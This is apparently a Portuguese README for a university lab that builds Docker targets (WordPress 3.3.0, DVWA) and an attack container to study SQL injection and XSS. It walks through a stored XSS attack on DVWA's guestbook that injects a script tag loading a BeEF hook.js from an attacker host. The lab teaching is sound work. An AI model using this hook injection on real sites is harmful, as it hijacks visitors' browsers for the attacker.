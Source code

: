 # 41ASO-SegInfo
Estudo sobre ataques de SQLi e XSS com PoC em sqlmap e BeeF. Turma `41ASO`, disciplina `ARCHITECTURE FOR MASTERING STRATEGIC AND EMERGING TECHNOLOGY INNOVATION`, professor `Ricardo Giorgi`.

## Pré-requisito
- [Docker](https://docs.docker.com/get-docker/)
- [Docker Compose](https://docs.docker.com/compose/install/)

## WordPress
Foi criado um container de WordPress na versão 3.3.0, obtido através da referência [WordPress Releases](https://wordpress.org/download/releases/).
wget https://wordpress.org/wordpress-3.3.zip

Para construir a imagem do container de WordPress 3.3.0, é necessário realizar o comando `docker-compose build wordpress`.

Para executar o sistema WordPress, é necessário realizar os seguintes comandos:
```
docker-compose up -d db
docker-compose up -d wordpress
```
Enquanto o container de MariaDB não finalizar sua inicialização, o container do WordPress ficará restartando.

Realizamos o backup do diretório `/var/www/html/`, localizado em `wordpress/site/`, onde efetuamos a montagem desse diretório para o container, a fim de disponibilizar o ambiente preparado para o estudo.

Também realizamos o backup da base de dados `wordpress`, localizado em `wordpress\wordpress.sql`, onde efetuamos a montagem desse arquivo no container de MariaDB, para que seja carregado para o MariaDB durante sua primeira inicialização, trazendo todas as configurações realizadas no WordPress.

Exemplo de comando para realização do backup da base de dados:
```
mysqldump -u admin -padmin --quick --extended-insert wordpress > wordpress.sql
```

### Credenciais WordPress
- Home: `http://127.0.0.1:8889/`
- Página de login: `http://127.0.0.1:8889/wp-login.php`
- Usuário: `admin`
- Senha: `admin`

### Credenciais Base de Dados WordPress
- Host: `db`
- Usuário: `admin`
- Senha: `admin`
- Database: `wordpress`

## DVWA
Para auxiliar no estudo, configuramos um container de DVWA.

Para executar o container do sistema DVWA, é necessário realizar o seguinte comando:
```
docker-compose up -d dvwa
```

Para interagir com o sistema, acessar a URL `http://127.0.0.1:8888/`. Segue referência do [código-fonte](https://github.com/ethicalhack3r/DVWA).

### Credenciais DVWA
- Usuário: `admin`
- Senha: `password`

## SonarQube
Para auxiliar no estudo, configuramos um container de SonarQube, a fim de escanear códigos-fonte, na tentativa de identificação de vulnerabilidades.

Para executar o container do sistema DVWA, é necessário realizar o seguinte comando:
```
docker-compose up -d sonarqube
```
Pode demorar alguns minutos para terminar de inicializar o sistema.

Para interagir com o sistema, acessar a URL `http://127.0.0.1:9000/`.

### Credenciais SonarQube
- Usuário: `admin`
- Senha: `admin`

## SonarQube Scan
Container responsável por escanear os códigos-fonte dos sistemas alvo, e reportar ao SonarQube.

Para construir a imagem do container de scan, é necessário realizar o comando `docker-compose build sonar-scan`.

Garantir que o container do SonarQube está funcionando. Logar no site do container para validar, conforme instruções descritas acima.

Para realizar o scan dos sistemas DVWA e WordPress 3.3.0, realizar o seguinte comando:
```
docker-compose run sonar-scan
```

Para entrar no container de scan, realizar o seguinte comando:
```
docker-compose run sonar-scan bash
```

## Attack
Container contendo ferramentas para ataque dos sistemas alvo.

Para construir a imagem do container de ataque, é necessário realizar o comando `docker-compose build attack`. A construção da imagem é demorada, devido à instalação do framework BeEF.

Para entrar no container de ataque, realizar o seguinte comando:
```
docker-compose run attack bash
```

Para executar a framework BeEF, é necessário realizar os seguintes comandos:
```
docker-compose run attack bash
cd /opt/beef
./beef
```

Adicionalmente, pode-se executar outro `bash` no mesmo container. Para isso, primeiramente obter o nome do container em execução:
```
docker-compose ps
```
Resultando na seguinte saída de exemplo:
```
                Name                               Command               State           Ports
-------------------------------------------------------------------------------------------------------
41aso-seginfo_attack_run_c58f5649e3a3   bash                             Up
```
Agora basta executar o comando `docker exec -it 41aso-seginfo_attack_run_c58f5649e3a3 bash`.

### Credenciais BeEF
- Usuário: `beef`
- Senha: `feeb`

## Realizar ataque com BeEF
Primeiramente, precisaremos conectar na SDN Docker. Para isso, utilizaremos o mitmproxy. Executar o seguinte comando:
```
docker-compose up -d mitmproxy
```

Configurar o proxy da sua máquina ou navegador, para apontar para o IP do host Docker, na porta 8080.
Exemplo em Windows, com Docker Desktop:
```
Painel de Controle\Rede e Internet\Central de Rede e Compartilhamento -> Opções da Internet -> Aba "Conexões" -> Configurações da LAN -> Servidor proxy:
Endereço: 127.0.0.1
Porta: 8080
OK
```

Executar o BeEF e o DVWA. Após executar o BeEF, ele irá te indicar a URL `Hook URL`, com o IP da SDN Docker, onde deveremos copiar essa URL, para compor o código de injeção XSS. Exemplo de URL: `http://10.60.80.100:3000/hook.js`. Exemplo de código de injeção XSS: 
```html
<script src="http://10.60.80.100:3000/hook.js"></script>
```

Acessar o DVWA na URL [http://dvwa/login.php](http://dvwa/login.php) e efetuar o login. Selecionar o item `XSS (Stored)` do menu lateral. Essa página é responsável por listar mensagens enviadas pelos usuários, onde é possível preencher seu nome e a mensagem que deseja enviar. É uma página vulnerável ao ataque do tipo XSS, onde seguiremos os seguintes passos para executar o ataque:
- No campo de texto do `Message`, clicar com botão direito e inspecionar o elemento HTML. Deve aparecer o seguinte código:
```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>
```
Aumentar o maxlength para que possamos injetar todo o código necessário:
```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>
```
- No campo `Name`, preencher com qualquer informação: `HelloBeEF`.
- No campo `Message`, preencher com o código de injeção gerado:
```html
<script src="http://10.60.80.100:3000/hook.js"></script>
````
- Pressionar o botão `Sign Guestbook`

Toda vez que essa página for acessada, como ela lista as mensagens enviadas, e na última mensagem enviada, contém um código XSS injetado, automaticamente seremos redirecionados à página do BeEF.
